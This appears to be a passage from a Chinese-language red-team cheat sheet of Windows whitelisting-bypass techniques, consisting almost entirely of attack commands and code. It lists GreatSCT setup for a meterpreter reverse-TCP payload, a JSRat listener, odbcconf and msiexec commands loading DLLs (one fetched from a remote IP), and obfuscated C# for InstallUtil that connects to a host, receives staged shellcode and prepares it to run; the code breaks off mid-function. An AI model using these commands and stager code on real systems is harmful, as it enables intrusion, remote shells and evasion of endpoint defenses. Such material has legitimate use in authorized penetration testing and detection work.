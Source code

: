  #### GreatSCT
	>git clone https://github.com/GreatSCT/GreatSCT.git
	>cd GreatSCT/setup&./setup.sh
	>use Bypass
	>list
	>use regasm/meterpreter/rev_tcp.py
	>msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
 #### JSRat
	>JSRat.py -i 192.168.1.107 -p 4444
 #### Odbcconf.exe
	>odbcconf.exe /a {regsvr C:\shell.dll} 可以是任意后缀
 #### Msiexec.exe
	>msiexec /y c:\user\admin\desktop\1.dll
	>msiexec /q /i http://192.168.0.107/dll.dll
 #### InstallUtil.exe
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:y.exe  /unsafe C:\Users\y\Desktop\1.cs
	using System;
	using System.Net;
	using System.Linq;
	using System.Net.Sockets;
	using System.Runtime.InteropServices;
	using System.Threading;
	using System.Configuration.Install;
	using System.Windows.Forms;
	public class GQLBigHgUniLuVx {
		public static void Main()
		{
			while(true)
			{{ MessageBox.Show("doge"); Console.ReadLine();}}
		}
	}
 	[System.ComponentModel.RunInstaller(true)]
	public class esxWUYUTWShqW : System.Configuration.Install.Installer
	{
		public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
		{
			jkmhGrfzsKQeCG.LCIUtRN();
		}
	}
	public class jkmhGrfzsKQeCG
	{ [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
	[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
	[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
	static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
	IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
	Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
	try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
	catch { return null;}
	byte[] UmquAHRnhhpuE = new byte[4];
	XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
	int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
	byte[] qaYyFq = new byte[kFVRSNnpj +5];
	int SRCDELibA =0;
	while(SRCDELibA < kFVRSNnpj)
	{ SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
	byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
	Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;